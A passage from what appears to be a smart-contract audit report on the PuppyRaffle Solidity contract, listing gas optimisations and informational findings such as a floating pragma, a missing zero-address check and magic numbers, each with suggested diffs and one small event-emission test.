+    string private constant legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

</details>

If the value is declared in the variable declaration, it should be made `constant`, otherwise it should be made `immutable` where it is set in the `constructor`.

### [G-2] Cache the `newPlayers.length` in the `PuppyRaffle::enterRaffle` function to reduce gas costs instead of calling from storage multiple times.

**Description:**
When assigning the `players.length` `newPlayers.length` to a variable, it will be stored in memory, and therefore will be cheaper to read from than storage.

<description>
<summary>Code</summary>

```diff
    function enterRaffle(address[] memory newPlayers) public payable {
+       uint256 newPlayersLength = newPlayers.length;

+       require(msg.value == entranceFee * newPlayersLength, "PuppyRaffle: Must send enough to enter raffle");
-       require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

-       for (uint256 i = 0; i < newPlayers.length; i++) {
+       for (uint256 i = 0; i < newPlayersLength; i++) {
            players.push(newPlayers[i]);
        }

        // Check for duplicates
+       uint256 playersLength = players.length;

-       for (uint256 i = 0; i < players.length - 1; i++) {
+       for (uint256 i = 0; i < playersLength - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
+            for (uint256 j = i + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
        emit RaffleEnter(newPlayers);
    }
```

</details>

## Informational/Non-Critical Severity

### [I-1] `RaffleEnter` event emits in the `PuppyRaffle::enterRaffle` function if the `newPlayers` array is empty.

**Description:**
A `RaffleEnter` event is emitted when the `PuppyRaffle::enterRaffle` function is called with no new players, effectively meaning there are no new entries to the raffle.

**Impact:**
This has no impact on the protocol or functionality of the contract.
It is a waste of gas however, and you should only emit events when they are necessary.

When there are no new players, the contract is being misleading by emitting that an entry has been made.

**Proof of Concept:**
Add this test to the `PuppyRaffleTest.t.sol` where an empty array of newPlayers is passed to the `enterRaffle` function:

<details>
<summary>Code</summary>

```javascript
    event RaffleEnter(address[] newPlayers);

   function testEmptyEntryEventEmit() public playersEntered {
        address[] memory newPlayersEntered = new address[](0);

        vm.expectEmit(true, true, true, true);
        emit RaffleEnter(newPlayersEntered);

        puppyRaffle.enterRaffle{value: 0}(newPlayersEntered);
    }
```

</details>

As the test passes, we can see that the event is emitted when the `newPlayers` array is empty.

**Recommended Mitigation:**
At the beginning of the `PuppyRaffle::enterRaffle` function, check if the `newPlayers` array is empty, and if it is, return early.

```diff
    function enterRaffle(address[] memory newPlayers) public payable {
+       require(newPlayers.length > 0, "PuppyRaffle: Must have at least 1 new player.");
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        .
        .
        .
    }
```

### [I-2] Floating Pragma Version `^0.7.6` is dangerous and should be pinned to a specific version.

**Impact:**
Using a floating pragma version can open up the contract to vulnerabilities in past/future versions of within all 0.7.x versions.

**Recommended Mitigation:**
Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.7.6;`, use `pragma solidity 0.7.6;`

### [I-3] The used solidity version of `0.7.6` is missing some security features, and should be updated to a more recent version.

**Description**
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks.

```javascript
pragma solidity ^0.7.6;
```

**Recommendation Mitigation**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

See Slither documentation for more details: [https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity)

### [I-4] Missing checks for `address(0)` when assigning `feeAddress` in constructor.

**Description:**
`PuppyRaffle::feeAddress` should not be `address(0)` as this would allow the fees to be sent to the 0 address.

**Recommendation Change**

```diff
    constructor(uint256 _entranceFee, address _feeAddress, uint256 _raffleDuration) ERC721("Puppy Raffle", "PR") {
        .
        .
        .
+       require(_feeAddress != address(0), "PuppyRaffle: Fee address cannot be 0");
        feeAddress = _feeAddress;
    }
```

### [I-5] `PuppyRaffle:selectWinner` does not follow CEI, which is not a best practice

**Description:**
It's best to keep code clean and follow best practices.

```javascript
    function selectWinner() external {
        .
        .
        .
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }
```

**Impact:**
There's no impact on the protocol as there is no vulnerability here, but it's best to follow best practices.

**Recommended Change:**

```diff
    function selectWinner() external {
        .
        .
        .
+       _safeMint(winner, tokenId);
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
-       _safeMint(winner, tokenId);
    }
```

### [I-6] Use of magic numbers affects code readability

**Description:**
In the `PuppyRaffle:selectWinner` function, numbers are used instead of named constants.

```javascript
    function selectWinner() external {
        .
        .
        .
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
    }
```

**Impact:**
Using numbers like `80`, `20`, `100` can make the code harder to read and understand.

**Recommended Change:**
Instead of using these raw numbers in the function, make them named constant variables in the contract and use them to improve the readability of the code.

```diff
uint256 constant PRIZE_POOL_PERCENTAGE = 80;
uint256 constant FEE_PERCENTAGE = 20;
uint256 constant PERCENTAGE_DIVISOR = 100;
.
.
.
function selectWinner() external {
    .
    .
    .
-   uint256 prizePool = (totalAmountCollected * 80) / 100;
+   uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / PERCENTAGE_DIVISOR;
-   uint256 fee = (totalAmountCollected * 20) / 100;
+   uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / PERCENTAGE_DIVISOR;
}
```

This helps to make the code more readable and maintainable.
